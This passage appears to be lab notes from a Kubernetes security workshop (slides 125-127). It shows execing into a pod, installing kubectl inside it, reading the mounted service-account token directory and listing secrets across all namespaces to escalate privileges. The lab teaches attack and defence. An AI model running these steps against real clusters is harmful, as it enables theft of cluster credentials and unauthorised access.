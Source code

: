 Permissions on dev account seem to be very limited
```
kubectl get pods
```
There's one pod we seem to have access to...

Let's exec into it. Change the `[rand]` below to match the random string in the pod name from the last command
```
kubectl exec -it myapp-[rand] -- /bin/bash
```

### Slide 125 - Priv esc - to golden tickets (lab cont.)

Install some tools we'll need

**Note:** we can do this because we're running in the container as root, otherwise we'd just pull in these tools some other way

```
apt update && apt install -y curl
```

```
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
```

chmod `kubectl`  and move it to /usr/local/bin 

```
chmod +x kubectl && mv kubectl /usr/local/bin
```

Use kubectl to see what we can do from this pod?

```
kubectl auth can-i --list
```
### Slide 126 - Priv esc - Why does this work?

Look at the pod's service account K8S mounts inside the container

```
ls -l /var/run/secrets/kubernetes.io/serviceaccount/
```

### Slide 127 - Priv esc - to golden tickets (lab cont.)

Get secrets

```
kubectl get secrets
```

Not much there, lets see if we can see secrets outside our namespace?

```
kubectl get secrets --all-namespaces
```
